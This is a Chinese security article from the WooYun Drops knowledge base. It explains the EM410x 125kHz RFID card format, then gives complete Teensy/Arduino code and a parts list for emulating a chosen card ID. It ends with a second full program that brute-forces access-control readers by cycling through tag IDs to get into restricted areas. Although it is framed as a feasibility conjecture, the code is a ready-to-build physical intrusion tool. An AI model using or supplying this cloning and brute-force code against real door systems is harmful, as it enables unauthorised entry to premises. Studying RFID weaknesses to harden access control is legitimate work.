


# 利用 Teensy 进行 EM410x 卡模拟以及暴力破解 EM410X 类门禁系统可行性猜想

2013/08/22 17:47 | [open](http://drops.wooyun.org/author/open "由 open 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

首先，我不得不再次提一下那些工作在 125khz 频率下的低频卡（如:EM410X 之类的），以便大家更好的阅读以下的内容。

## 什么是低频？以下就是低频的解释：

* * *

低频（LF, Low frequency）是指频带由 30KHz 到 300KHz 的无线电电波。一些无线电频率识别（ RFID 技术 ）标签使用低频。 这些标签通常被称为 LFID’s 或 LowFID’s（低频率识别 Low Frequency Identification）。

然而 LFID’s/LowFID’s 所常用(非唯一)的频率为 125kHz/134kHz，125kHz/134kHz 只是低频[RFID](http://radiowar.org/tag/rfid)所基于的频率，该频率不存在任何功能性，就是频率本身不存在所谓的 ID 识别、读取写入等，而常用的低频卡有 HID、T55xx、EM410x 等系列，这些系列的低频卡都是大家在生活当中常常会使用到会碰到的。而这一次我们说的就是基于 125kHz 下的 EM410x 系列用于门禁 ID 识别之用。

以下就是 EM410x 的格式：

```
1 1 1 1 1 1 1 1 1                                          9bits 头
8 bits 版本或厂商 ID              
                                            D00 D01 D02 D03 P0
                                            D10 D11 D12 D13 P1
                                            D20 D21 D22 D23 P2
                                            D30 D31 D32 D33 P3
                                            D40 D41 D42 D43 P4      10bits 行检验
                                            D50 D51 D52 D53 P5
32bits 数据                           D60 D61 D62 D63 P6
                                           D70 D71 D72 D73 P7
                                           D80 D81 D82 D83 P8
                                           D90 D91 D92 D93 P9
                                           PC0 PC1 PC2 PC3 S0
                                                     4 位列校验 
```

这 64 位数据里面连续 9 个 1 作为数据开头，而 D00-D93 就是用户数据，P0-P9 是行偶校验位，PC0-PC3 是列偶校验位，S0 为数据结束位。

简单通俗的科谱一下什么是偶校验，就是数据 1 的个数是奇数还是偶数。

```
例如:0x01 的二进制是 0001 这个数据中 1 的个数为奇数，如果偶校验的话就应该是 00011 让 1 的个数为偶数，要是数据是 1110 那偶校验当然就是 11101，相反要是奇校验就是 11100。 
```

以下实际例子说明 EM410x 格式:

如果我有一张 EM410x 卡，而卡上所印刷的 ID 会是：

```
0005206306 
```

如果利用 Proxmark3 或低频读卡器进行读取的话，你将会看到 ID 会多出两位数值，而这个数值有可能就是 8bit 的版本、厂商或用户标识。如果我们利用 Proxmark3 读取出来 ID 是:

```
0x0600503472 
```

相对应的 0×00503472=5206306，而 0×06 就是标识，而它的格式将会是怎么样的呢？看看以下分析：

首先是数据头：

```
111111111 
```

卡号数据与行偶校验位

```
0 = 0000 0
6 = 0110 0
0 = 0000 0
0 = 0000 0
5 = 0101 0
0 = 0000 0
3 = 0011 0
4 = 0100 1
7 = 0111 1
2 = 0010 1
                      p = 0001 （列偶校验位）
0 结束 
```

由上面的数据因此我们将会得到以下的数值:

```
111111111 00000 01100 00000 00000 01010 00000 00110 01001 01111 00101 00010 
```

这就是 EM410x 的格式，如果还有什么不明白的话，请自行使用 Google 等搜索引擎进行信息搜索，接下来就是谈谈如何利用 Teensy 进行 EM410x 的模拟操作。

## 利用 Teensy 模拟 EM410x Tag

* * *

硬件元件清单:

```
1\. 基于 125kHz 的低频线圈
2\. 电容
3\. 三极管 2N3904
4\. 电阻 10K
5\. Teensy++ 2.0 
```

如何制做一个 125khz 谐振电路呢。那得知道 LC 谐振公式



F 频率 L 电感 C 电容

如你买的线圈电感是 345UH 那么就配一个 4700PF 的电容，要是 730UH 那电容就配个 2200PF 的。当天线配置好后，就利用 Teensy++ 2.0 这个小玩意写入以下代码，当然你也可以用 Arduino 开发板。



Teensy++ 2.0 模拟 EM410x 代码如下:

```
String sStart = "1111111110000000000";//
String sStop = "0";
int data_to_spoof[64];
int coil_pin = 9;
int a,b,c,d;
unsigned long id;
char HexCode[8];

void setup()
{
// Serial.begin(9600);
pinMode(coil_pin, OUTPUT);
digitalWrite(coil_pin, LOW);
id = 0x503472;
a=0;b=0;c=0;d=0;
sprintf(HexCode,"%04X%04X",id);
String s = sStart + Em4xCode(HexCode[4]) + Em4xCode(HexCode[5]) + Em4xCode(HexCode[6]) + Em4xCode(HexCode[7]) + Em4xCode(HexCode[0]) + Em4xCode(HexCode[1]) + Em4xCode(HexCode[2]) + Em4xCode(HexCode[3]) + EvenParity(a) + EvenParity(b) + EvenParity(c) + EvenParity(d) + sStop;
// Serial.println(s);
toCode(s);

}

void set_pin_manchester(int clock_half, int signal)
{
int man_encoded = clock_half ^ signal;
if(man_encoded == 1)
{
digitalWrite(coil_pin, HIGH);
}
else
{
digitalWrite(coil_pin, LOW);
}
}

String Em4xCode(String code)
{
if (code == '1') {d+=1;return "00011";}
if (code == '2') {c+=1;return "00101";}
if (code == '3') {c+=1;d+=1;return "00110";}
if (code == '4') {b+=1;return "01001";}
if (code == '5') {b+=1;d+=1;return "01010";}
if (code == '6') {b+=1;c+=1;return "01100";}
if (code == '7') {b+=1;c+=1;d+=1;return "01111";}
if (code == '8') {a+=1;return "10001";}
if (code == '9') {a+=1;d+=1;return "10010";}
if (code == 'A') {a+=1;c+=1;return "10100";}
if (code == 'B') {a+=1;c+=1;d+=1;return "10111";}
if (code == 'C') {a+=1;b+=1;return "11000";}
if (code == 'D') {a+=1;b+=1;d+=1;return "11011";}
if (code == 'E') {a+=1;b+=1;c+=1;return "11101";}
if (code == 'F') {a+=1;b+=1;c+=1;d+=1;return "11110";}
return "00000";
}

String EvenParity(int Parity)
{
if ((Parity % 2) == 1) return "1";
return "0";
}

void toCode(String s)
{
for(int i = 0; i < 64; i++)
{
if (s[i]=='0'){data_to_spoof[i]=0;}else{data_to_spoof[i]=1;}
}
}
void loop()
{
for(int i = 0; i < 64; i++)
{
set_pin_manchester(0, data_to_spoof[i]);
delayMicroseconds(256);
set_pin_manchester(1, data_to_spoof[i]);
delayMicroseconds(256);
}
}

```

在这里要提出的是，有可能你不理解为什么这么发送，因为它的编码为是：曼彻斯特码，所以我在这也通俗的说一下吧。

例如要发送 64 位数据:

```
111111111 00000 01100 00000 00000 01010 00000 00110 01001 01111 00101 00010 
```

那用多少时间传送 1 位呢？答案是 64，125khz 等于 512us 也就是说 512us 转送 1 位，但曼彻斯特码是用 2 位来表示的，如果数据是 1 的话，曼彻斯特码为 10，数据为 0 的话，曼彻斯特码为 01。所以转送时 512us 转一位数据换算为曼彻斯特码转输就应该是 512us/2=256us 传送一个，然而程序是把 64 位数据换算成曼彻斯特码发送，所以发送间隔为 delayMicroseconds(256);

当我们利用 Teensy 进行相关的模拟操作的时候，发现实际上只要我们做相关穷举测试，或者我们可以更加快速的突破门禁系统的限制进入到受限区域，在测试的环境当中，因为读卡器并没有任何延时读取出现，所以我们可以极快的速度穷举相关的 TagID，但因每种门禁都有自身的设置以及环境因素，我们不确定以下的穷举代码是否适合大家，故此我们只是以提出可行性猜想来写本文。

以下是暴力穷举测试程序代码：

```
String sStart = "1111111110000000000";
String sStop = "0";
int data_to_spoof[64];
int led = 6;
int coil_pin = 9;
int a,b,c,d;
unsigned long id;
char HexCode[8];

void setup()
{
// Serial.begin(9600);
pinMode(led, OUTPUT);
pinMode(coil_pin, OUTPUT);
digitalWrite(coil_pin, LOW);
id = 0x502E96;
}

void set_pin_manchester(int clock_half, int signal)
{
int man_encoded = clock_half ^ signal;
if(man_encoded == 1)
{
digitalWrite(coil_pin, HIGH);
}
else
{
digitalWrite(coil_pin, LOW);
}
}

String Em4xCode(String code)
{
if (code == '1') {d+=1;return "00011";}
if (code == '2') {c+=1;return "00101";}
if (code == '3') {c+=1;d+=1;return "00110";}
if (code == '4') {b+=1;return "01001";}
if (code == '5') {b+=1;d+=1;return "01010";}
if (code == '6') {b+=1;c+=1;return "01100";}
if (code == '7') {b+=1;c+=1;d+=1;return "01111";}
if (code == '8') {a+=1;return "10001";}
if (code == '9') {a+=1;d+=1;return "10010";}
if (code == 'A') {a+=1;c+=1;return "10100";}
if (code == 'B') {a+=1;c+=1;d+=1;return "10111";}
if (code == 'C') {a+=1;b+=1;return "11000";}
if (code == 'D') {a+=1;b+=1;d+=1;return "11011";}
if (code == 'E') {a+=1;b+=1;c+=1;return "11101";}
if (code == 'F') {a+=1;b+=1;c+=1;d+=1;return "11110";}
return "00000";
}

String EvenParity(int Parity)
{
if ((Parity % 2) == 1) return "1";
return "0";
}

void toCode(String s)
{
for(int i = 0; i < 64; i++)
{
if (s[i]=='0'){data_to_spoof[i]=0;}else{data_to_spoof[i]=1;}
}
}
void loop()
{
a=0;b=0;c=0;d=0;
sprintf(HexCode,"%04X%04X",id);
String s = sStart + Em4xCode(HexCode[4]) + Em4xCode(HexCode[5]) + Em4xCode(HexCode[6]) + Em4xCode(HexCode[7]) + Em4xCode(HexCode[0]) + Em4xCode(HexCode[1]) + Em4xCode(HexCode[2]) + Em4xCode(HexCode[3]) + EvenParity(a) + EvenParity(b) + EvenParity(c) + EvenParity(d) + sStop;
// Serial.println(s);
toCode(s);
for(int ii = 0; ii < 2; ii++)
{
for(int i = 0; i < 64; i++)
{
set_pin_manchester(0, data_to_spoof[i]);
delayMicroseconds(265);
set_pin_manchester(1, data_to_spoof[i]);
delayMicroseconds(265);
}
}
if (id == 0x50308A){digitalWrite(led, HIGH);}
id += 1;
if (id > 0xFFFFFFFF ){id=0;}
}

```

版权声明：未经授权禁止转载 [open](http://drops.wooyun.org/author/open "由 open 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [分享信息安全工作小记](http://drops.wooyun.org/tips/2945)
*   [fail2ban 防暴力破解介绍使用](http://drops.wooyun.org/tips/3029)
*   [当渗透遇到 zabbix–小谈 zabbix 安全](http://drops.wooyun.org/tips/68)
*   [WooYun WIFI 成长史](http://drops.wooyun.org/tips/3248)
*   [一起针对国内企业 OA 系统精心策划的大规模钓鱼攻击事件](http://drops.wooyun.org/tips/2562)
*   [一些常见的重置密码漏洞分析整理](http://drops.wooyun.org/papers/2035)